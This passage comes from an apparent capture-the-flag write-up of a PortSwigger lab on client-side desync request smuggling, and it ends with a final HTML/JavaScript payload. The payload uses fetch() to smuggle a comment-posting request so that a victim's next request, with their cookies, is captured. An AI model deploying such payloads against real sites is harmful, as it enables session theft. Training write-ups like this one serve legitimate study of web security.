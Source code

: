 - **A request to load the post confirmation page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226144817.png)

**Now, in the blog post we should see our own `/capturer` request via a browser-initiated attack:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226144850.png)

**Finally, we can deliver the above payload to the victim!!**

**Final payload:**
```html
<html>
    <head>
        <title>Client-side desync</title>
    </head>
    <body>
        <script>
        fetch('https://0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net/', {
            method: 'POST',
            body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net\r\nCookie: session=E4JOQg3Yw8TCcboDgbxPSXniXUhi3xPV; _lab_analytics=byZLPF2FM2lpAH83Zz10U7gegQLjKUOJ5EqrlWt6lJSDmy1MspH8ivSU2LDwwlBnQyc4KKombwOqK47ap4jiLqNvYPXKRYhK2TvoyMHnw0HQw8boBEskuySc50lCaIr0K2oOceavIp2n7qn6YKkLoAtfdcsvl7IMwNbJnpZXuK2cIdQ6VXMo6NNQU9AdPMPwJg3tEV0pPMNvg5LNiDDkng8HIOaZDWXrZdKN638WfavVs3dqnxIXalYJZ9qunper\r\nContent-Length: 300\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=ad2JMc779PxfzUrbiVP2FIz4QrGCCwt3&postId=2&name=tester&email=test@test.com&website=&comment=', // malicious prefix
            mode: 'cors', // ensures the connection ID is visible on the Network tab
            credentials: 'include' // poisons the "with-cookies" connection pool
        }).catch(() => {
                fetch('https://0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net', {
                mode: 'no-cors',
                credentials: 'include'
            })
        })
        </script>
    </body>
</html>
```
